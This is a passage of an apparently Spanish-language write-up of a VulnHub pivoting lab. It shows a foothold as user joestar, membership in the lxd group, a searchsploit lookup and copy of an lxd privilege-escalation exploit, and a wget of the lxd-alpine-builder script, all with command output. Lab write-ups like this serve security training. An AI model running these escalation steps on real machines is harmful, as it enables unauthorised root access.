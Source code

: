 Ya no hay mas interfaces

```bash
joestar@tank1:~$ hostname -I
10.10.0.129 
joestar@tank1:~$ 
```

## Escalada de privilegios Joestar

Estamos en el grupo `lxd`

```bash
joestar@tank1:~$ id
uid=1000(joestar) gid=1000(joestar) groups=1000(joestar),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lxd),122(lpadmin),123(sambashare)
joestar@tank1:~$ 

```

```bash
❯ searchsploit lxd
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                     | linux/local/46978.sh
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

```bash
❯ searchsploit -m linux/local/46978.sh
  Exploit: Ubuntu 18.04 - 'lxd' Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46978
     Path: /usr/share/exploitdb/exploits/linux/local/46978.sh
File Type: Bourne-Again shell script, UTF-8 Unicode text executable

Copied to: /home/miguelrega7/VulnHub/pivoting2/192.168.1.153/exploits/46978.sh


❯ mv 46978.sh lxd_prives.sh
```

Vamos a seguir las intrucciones

```bash
❯ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
--2023-04-03 14:54:21--  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 2606:50c0:8000::154, 2606:50c0:8003::154, 2606:50c0:8001::154, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[2606:50c0:8000::154]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 8060 (7.9K) [text/plain]
Grabando a: «build-alpine»

build-alpine                    100%[=======================================================>]   7.87K  --.-KB/s    en 0s      

2023-04-03 14:54:21 (28.1 MB/s) - «build-alpine» guardado [8060/8060]

```